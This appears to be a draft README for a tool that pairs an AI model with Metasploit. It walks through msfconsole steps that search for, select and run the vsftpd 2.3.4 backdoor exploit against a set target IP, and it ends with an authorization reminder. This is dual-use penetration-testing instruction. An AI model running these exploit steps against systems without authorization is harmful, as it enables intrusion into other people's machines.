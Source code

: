 

# 🛠️ Metasploit Basics Guide with the GPT Assistant

## What is Metasploit?

Metasploit is a powerful penetration testing framework used to find, exploit, and validate vulnerabilities. It contains a wide range of exploits, payloads, and auxiliary modules.

---

## Using Metasploit with the GPT Assistant

The assistant can help you construct Metasploit commands and guide you through using common modules. For example, you can ask:

> "How do I start Metasploit and run a basic exploit?"

It will suggest commands and explain their usage step-by-step.

---

## Common Metasploit Commands

### 1. Start the Metasploit console
```bash
msfconsole

<!-- [ADD SCREENSHOT: Assistant suggesting msfconsole command] -->
2. Search for an exploit

search vsftpd

<!-- [ADD SCREENSHOT: Assistant suggesting search command] -->
3. Use an exploit module

use exploit/unix/ftp/vsftpd_234_backdoor

<!-- [ADD SCREENSHOT: Assistant showing 'use' command suggestion] -->
4. Set required options (e.g., target IP)

set RHOST 192.168.1.10

<!-- [ADD SCREENSHOT: Assistant suggesting set command] -->
5. Run the exploit

exploit

<!-- [ADD SCREENSHOT: Assistant suggesting exploit command] -->
How to Ask the Assistant

Examples:

    "Open Metasploit console"

    "Search for ftp exploits"

    "Use vsftpd backdoor exploit"

    "Set target IP to 10.0.0.5"

    "Run exploit"

The assistant will reply with suggested commands and clear explanations.
Ethical Reminder

Only use Metasploit against systems you are authorized to test.
Tips

    Use help inside msfconsole to see detailed module options.

    Combine Metasploit with Nmap scans to gather better information on targets.